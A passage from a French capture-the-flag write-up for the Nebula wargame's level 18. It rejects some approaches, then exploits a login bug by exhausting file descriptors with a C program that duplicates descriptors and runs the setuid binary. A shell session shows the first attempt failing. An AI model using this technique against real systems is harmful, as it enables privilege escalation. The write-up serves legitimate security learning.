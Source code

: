 * dernier point qui me semblait possible : le binaire lit un mot de passe présent dans `/home/flag18/password` et le compare à la valeur que l'on peut donner via la commande `login`. Le binaire offre aussi une option `-d` permettant de spécifier un fichier de log et donc d'écrire du contenu avec les droits de l'utilisateur `flag18`.

J'ai pensé par conséquent à écraser ce fichier `password` par le fichier de log mais ce dernier aura toujours un entête `Starting up...` qu'on ne contrôle pas. Ce ne serait pas génant d'avoir cette chaine comme mot de passe MAIS elle contient un retour à la ligne qui sera conservé par le `fgets` de `login` alors que la boucle while de son côté transforme le premier retour à la ligne en octet nul... du coup la comparaison ne fonctionnera jamais.

Si l'utilisateur avait eu un dossier `.ssh` nous aurions pu créer (via le fichier de log) un fichier `authorized_keys` avec une clé publique faible pour passer ne pas dépasser les 256 octets... mais ce n'est pas le cas.

Le dernier bug qu'il fallait trouver se situe aussi dans la fonction `login` : si la fonction `fopen` échoue le programme marque que l'on est authentifié. On peut alors utiliser la commande `shell`.

Pour arriver à nos fins il faut faire en sorte que le binaire atteigne le maximum de descripteurs de fichiers ouverts. La limite est à priori appliquée sur le processus et son processus parent. J'ai donc écrit un code similaire à ce que d'autres ont fait :

```c
#include <unistd.h>
#include <stdio.h>

extern char **environ;

int main(int argc, char *argv[]) {
        int n = atoi(argv[1]);
        char line[2];
        int i;
        int fd;
        char* const args[] = {"/home/flag18/flag18", "--rcfile", "-d", "/tmp/log", NULL};

        for (i=0; i<n; i++) {
                fd = dup(1);
        }
        printf("ready\n");
        fgets(line, 2, stdin);
        execve(args[0], args, environ);
        return 0;
}
```

Le binaire duplique le descripteur de l'entrée standard autant de fois qu'on lui demande. Il affiche ensuite `ready` et attend qu'on tape sur `Enter`. Il lance alors le binaire vulnérable.

Par défaut ça ne fonctionne pas car le binaire n'a même plus de disponibilités pour charger les librairies :

```bash
level18@nebula:~$ ./exhaust 1020
ready

/home/flag18/flag18: invalid option -- '-'
/home/flag18/flag18: invalid option -- 'r'
/home/flag18/flag18: invalid option -- 'c'
/home/flag18/flag18: invalid option -- 'f'
/home/flag18/flag18: invalid option -- 'i'
/home/flag18/flag18: invalid option -- 'l'
/home/flag18/flag18: invalid option -- 'e'
login aa
shell
/home/flag18/flag18: error while loading shared libraries: libncurses.so.5: cannot open shared object file: Error 24
```
